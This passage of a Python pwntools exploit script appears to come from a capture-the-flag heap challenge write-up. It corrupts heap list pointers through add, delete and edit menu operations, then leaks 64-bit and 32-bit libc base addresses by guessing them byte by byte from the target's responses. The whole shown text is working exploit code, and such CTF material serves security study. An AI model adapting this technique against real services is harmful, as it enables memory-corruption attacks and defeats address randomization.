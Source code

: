 ```python
	add(4,0x8,p32(0x1000)+p32(list32+4*8))
	dele(2)
	edit(2,'\x00')
	
	#leak
	libc64.address = 0
	for idx in range(5,0,-1):
		buf = p32(list32+4*10) + p32(list32+4*12)
		buf += p32(1) + p32(bss32)#8
		buf += p32(0x100) + p32(bss32+0x100)#9
		buf = buf.ljust(4*8,'\x00')
	
		buf	+= p64(0x602040+idx) + p64(list64+8*12)
		buf	+= p64(0) + p64(0)#8
		buf	+= p64(0x100) + p64(0x602041+idx)#9
		buf	+= '\n'
		edit(0,buf)
		
		edit(9,'\x00'*7 + p64(bss64) + '\n')
		
		p.sendlineafter('>>','4')
		p.sendlineafter('index?','8')	
		p.recvuntil("content:")
		for sz in range(1,256):
			p.send('5')
			if 'done!' in p.recvrepeat(0.1):
				libc64.address += sz << (idx*8)
				success(hex(sz))
				p.sendline('5'*(0x100-sz))
				break
			elif sz == 0xff:
				print('failed')
				exit(0)
	libc64.address -= 0x3c5500
	
	
	libc32.address = 0
	for idx in range(3,0,-1):
		buf = p32(0x804b020+idx) + p32(list32+4*12)
		buf+= p32(0) + p32(0)#8
		buf+= p32(0x100) + p32(0x804b021+idx)#9
		buf = buf.ljust(4*8,'\x00')
		
		buf+= p64(list64+8*10) + p64(list64+8*12)
		buf+= p64(1) + p64(bss64)#8
		buf+= p64(0x100) + p64(bss64+0x100)#9
		buf+= '\n'
		edit(0,buf)
		edit(9,'\x00'*3 + p32(bss32) + '\n')
		
		p.sendlineafter('>>','4')
		p.sendlineafter('index?','8')
		p.recvuntil("content:")
		for sz in range(1,256):
			p.send('5')
			if 'done!' in p.recvrepeat(0.1):
				libc32.address += sz << (idx*8)
				success(hex(sz))
				p.sendline('5'*(0x100-sz))
				break
			elif sz == 0xff:
				print('failed')
				exit(0)
```